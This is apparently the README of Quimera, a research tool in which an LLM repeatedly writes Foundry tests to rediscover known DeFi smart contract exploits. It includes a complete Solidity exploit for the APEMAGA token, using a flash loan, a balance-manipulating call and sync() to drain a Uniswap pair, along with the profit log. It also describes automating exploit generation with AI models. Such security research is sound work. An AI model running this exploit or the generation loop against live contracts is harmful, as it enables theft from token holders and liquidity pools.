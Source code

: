 # Quimera

This is exploit-generator that uses large language models (LLMs) to gradually discover smart contract exploits in Foundry by following these steps:

1. Get the smart contract's source code and write a prompt that describes the goal of the exploit (e.g., the balance should increase after a flashloan).

2. Ask the LLM to create or improve a Foundry test case that tries to exploit the contract.

3. Run the test, check the transaction trace, and see if it made a profit.

4. If it did, stop. If not, go back to step 2 and give the LLM the trace from the failed attempt to help it improve.

**Current Status**: This is an experimental prototype. We’re still figuring out the best settings (like the right temperature), how to write better prompts, and what the tool is really capable of. Here are the results so far re-discovering known exploits using [Gemini Pro 2.5 06-05](https://blog.google/products/gemini/gemini-2-5-pro-latest-preview/):

| Exploit   | Complexity | Comments |
|-----------|------------|----------|
|[APEMAGA](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/dc2cf9e53e9ccaf2eaf9806bad7cd914edefb41b/src/test/2024-06/APEMAGA_exp.sol#L23) | Low    | Only one step needed.|
|[VISOR](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/34cce572d25175ca915445f2ce7f7fbbb7cb593b/src/test/2021-12/Visor_exp.sol#L10)     | Low    | A few steps needed to build the WETH conversion calls, but overall the root cause is identified quickly. |
| [FIRE](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/b3738a7fdffa4b0fc5b34237e70eec2890e54878/src/test/2024-10/FireToken_exp.sol)     | Medium | It will first build the sequence of calls to exploit it, and then slowly adjust the amounts until profit is found. |
| [Thunder-Loan](https://github.com/Cyfrin/2023-11-Thunder-Loan) | Low | This one is part of a CTF? |

# Demo

![Demo](https://i.imgur.com/3Xw7vb8.gif)

# Requirements

* You will need an RPC provider (e.g. Alchemy) and an Etherscan API key. Both have free options.
* An LLM service, either a local (e.g. ollama) or remote LLM service (e.g gemini). **You do not need to pay for an API access, specially if you use "manual mode"**
* [Foundry](https://book.getfoundry.sh/)

# Installation

To install, just run:

```
pip3 install https://github.com/gustavo-grieco/quimera/archive/refs/heads/main.zip
```

If you want to use [different LLM providers](https://llm.datasette.io/en/stable/plugins/directory.html#plugin-directory), you will need to install them as plugins. For instance, to install gemini and ollama support:

```
llm install llm-gemini
llm install llm-ollama
```

Note that in "manual mode", there is no need to install any plugin as the user will be copying and pasting the prompt and responses.

**Important**: when using an LLM to test with an already known exploit, make sure the web search is not enabled, otherwise they can will have access to the original exploit code.

# Getting started

1. Modify the keys.sh file to add the RPC and Etherscan keys.
2. Select a block number `B` and then execute `source keys.sh B`
3. Invoke Quimera:

```
quimera TARGET --model gpt-4o --iterations 5
```

You can use `llm models` to show the available models.

# Running modes

Quimera can work with either deployed contracts (using Etherscan to fetch the source code) or in local mode with a Foundry codebase. To see an example how to use it locally, check the [tests/erc4626](tests/erc4626) directory. It imports the OpenZepelin ERC4626 vault which is instantiated using WETH in the tests. To use quimera, you must define a QuimeraBase contract in the [`test/quimera/QuimeraBase.t.sol`](tests/erc4626/test/quimera/QuimeraBase.t.sol) similar to the example one.

# Example session

This session shows the different steps to re-discover the [APEMAGA exploit](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/dc2cf9e53e9ccaf2eaf9806bad7cd914edefb41b/src/test/2024-06/APEMAGA_exp.sol#L23).
While it is likely that this code is part of the millons used to train, Gemini does not seem to be immediately recalling the exploit from memory, but instead, it seems to be trying to understand the code (at least, in some degree).

```
source keys.sh 20175261
quimera 0x56FF4AfD909AA66a1530fe69BF94c74e6D44500C --model gemini-2.5-pro-preview-06-05 --iterations 10
```

Gemini 2.5 Pro Preview (06-05) was used and produced an exploit on a single attempt (it used to take more in previous models):

```solidity
function executeExploit(uint256 amount) internal {
    // We have `amount` of WETH from the flash loan.
    // Let's use a significant portion to buy the target token.
    uint256 amountToSwap = amount * 90 / 100;

    // Path for swapping WETH -> Tonken
    address[] memory path = new address[](2);
    path[0] = address(valuableToken); // WETH
    path[1] = address(token);         // Tonken

    // 1. Swap WETH for Tonken
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amountToSwap,
        0, // amountOutMin, we take whatever we can get
        path,
        address(this),
        block.timestamp
    );

    // 2. Call the vulnerable 'family' function on the Tonken contract,
    // passing the Uniswap pair's address. This is expected to maliciously
    // reduce the pair's recorded balance of Tonken.
    ITonken(token).family(address(uniswapPair));

    // 3. Call 'sync' on the Uniswap pair. This will update the pair's
    // reserves to match its token balances, which have just been manipulated.
    // The Tonken reserve will drop, artificially inflating its price.
    uniswapPair.sync();

    // Path for swapping Tonken -> WETH
    address[] memory path2 = new address[](2);
    path2[0] = address(token);         // Tonken
    path2[1] = address(valuableToken); // WETH

    // Get our entire balance of Tonken to swap back.
    uint256 tonkenBalance = IERC20(token).balanceOf(address(this));

    // 4. Swap all our Tonken back to WETH at the new, inflated price.
    // The router is already approved from the setUp function.
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        tonkenBalance,
        0, // amountOutMin
        path2,
        address(this),
        block.timestamp
    );
}
```

When an exploit is produced, the output shows the amount extracted:

```
[PASS] testFlaw() (gas: 202442)
Logs:
  ...
  Current valuable balance: 36116755288105983138433
  Surplus: 9137102938761881313
  Final balance 9137102938761881313

```

This exploit consumed a few thousands tokens and costed less than 1.25 USD.
